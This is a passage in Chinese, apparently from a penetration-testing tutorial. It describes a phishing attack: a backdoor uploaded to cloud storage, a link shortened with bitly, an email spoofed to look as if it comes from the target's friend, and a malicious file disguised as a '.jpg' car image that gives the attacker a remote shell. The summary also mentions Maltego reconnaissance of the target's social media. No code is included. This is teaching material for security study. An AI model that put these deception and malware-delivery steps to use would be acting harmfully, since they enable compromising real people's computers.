现在我们可以随邮件发送附件，但大多数情况下，附件并不总是能成功发送，所以建议将后门上传到 Dropbox 或 Google Drive，然后将链接发送给目标。始终缩短共享链接，使其看起来更简短、更容易接受。我们可以通过 Google 查找链接缩短工具，我们将使用 bitly.com，这是一个非常著名的服务。现在我们做的只是社会工程学，目的是让消息看起来更具接受性。复制缩短的链接并将其发送到消息中。就这样，完成了，发送邮件：


我们已经登录了测试账户，并且会看到我们收到了来自一个名为 Mohammed 的人的邮件。如果我们将鼠标悬停在上面，我们会看到邮件是来自`m.askar@isecur1ty.org`的 Mohammad Askar，并且甚至能看到这个人的照片，尽管我们并没有从他的邮箱发送邮件，也不知道他的密码。实际上，我们是通过一个匿名邮件服务发送的，但看起来就像是来自他的邮件，因为他是我们的朋友，所以我们很可能会打开他的邮件：


欺骗邮件已收到

这条消息只是在告诉我们他打算买一辆车，并请求我们看看它，并告诉我们对此的看法。所以我们可能会点击这个链接。现在图片已经被下载，如果我们打开名为`gtrexe.jpg`的图片，它实际上显示的是那辆车的图标，因此扩展名仍然是图片的扩展名：


带有.jpg 扩展名的后门

如果目标运行这个文件，我们将获得一个 Windows 命令行窗口，可以在目标系统上做任何我们想做的事情。

# 总结

在这一章中，我们学习了如何使用社交工程进行客户端攻击。我们运用社交工程技巧，通过让受害者主动参与一些有助于我们控制其系统的行为，重新获取对受害者机器的访问权限。我们学习了一种重要的工具——Maltego，它非常强大，帮助我们收集了目标的社交生活中的重要信息；我们能够监视他的所有社交媒体账户。利用这些信息，我们规划了可以攻击目标的方法。我们甚至学会了如何为文件创建定制图标，作为我们攻击其系统的后门。

使用 Maltego 提供的信息，我们通过目标朋友的电子邮件 ID 发送了一封包含后门的消息，一旦受害者打开文件，后门就会激活。

在下一章，我们将学习 BeEF 浏览器工具，攻击目标系统并检测木马。
